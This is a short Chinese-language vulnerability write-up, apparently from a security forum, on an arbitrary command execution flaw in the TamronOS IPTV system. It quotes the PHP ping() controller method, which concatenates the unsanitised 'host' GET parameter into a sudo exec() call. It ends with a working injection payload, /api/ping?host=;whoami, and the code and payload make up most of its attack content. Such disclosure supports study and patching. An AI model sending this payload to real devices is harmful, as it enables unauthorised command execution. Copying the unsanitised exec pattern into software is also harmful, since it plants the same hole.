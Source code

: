 **TamronOS\_IPTV系统任意命令执行漏洞**  
开源镜像，可以在官网下载，下载之后解压到这个地方  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3f663e9fe33c48b8cc01a31adb340779998fcf7e.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3f663e9fe33c48b8cc01a31adb340779998fcf7e.jpg)  
漏洞地方出现在cgi/iptv/Controllers/ApiController.php的ping方法

```php
public function ping()
    {

        $ip = $_GET['host'];
        if($ip) {
            // mode
            $mode = $_GET['type'];
            if(in_array($mode, ['icmp', 'syn', 'arp', 'tracert', 'whois', 'tcpdump'])) {
                $options[] = sprintf(' -m %s', $mode);
            }

            // count
            $count = intval($_GET['count']);
            $count = min(1000, $count);
            $count = max(0, $count);
            if($count > 0) {
                $options[] = sprintf(' -c %d', $count);
            }

            if($mode == 'tcpdump') {
                $interface = intval($_GET['interface']);
                $options[] = sprintf(' -i %s', $interface);
            }else{
                // interval
                $interface = intval($_GET['interface']);
                $interval = min(10000, $interval);
                $interval = max(0, $interval);
                if($interval > 0) {
                    $options[] = sprintf(' -i %d', $interval);
                }
            }

            // timeout
            $timeout = intval($_GET['timeout']);
            $timeout = min(60, $timeout);
            $timeout = max(5, $timeout);
            if($timeout > 5) {
                $options[] = sprintf(' -T %d', $timeout);
            }

            // source
            $source = $_GET['source'];
            if($source) {
                $options[] = sprintf(' -s %s', $source);
            }

            $cmd = sprintf('/usr/bin/sudo /etc/exec/kping -t %s%s', $ip, join(' ', $options));
            exec($cmd, $res);
        }else{
            $res = '域名或ip不能为空';
        }
        $respond = [
            'suc' => 1,
            'cmd' => $cmd,
            'result' => join(PHP_EOL, $res)
        ];
        $this->json($respond);
    }
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4f923e5c53114f174ec1acdfb1a44a01031dc84d.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4f923e5c53114f174ec1acdfb1a44a01031dc84d.jpg)  
直接看exec函数，$cmd可控,把$ip直接拼接到系统命令中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c8eb36df5f90c4b0e8bdf43058b9960012351450.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c8eb36df5f90c4b0e8bdf43058b9960012351450.jpg)  
只需要构造host参数就行，因为是采用的是tp控制器/方法名这种  
构造payload: /api/ping?host=;whoami  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c9a46d51ead42835402265085a8cd5041c24b2bb.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c9a46d51ead42835402265085a8cd5041c24b2bb.jpg)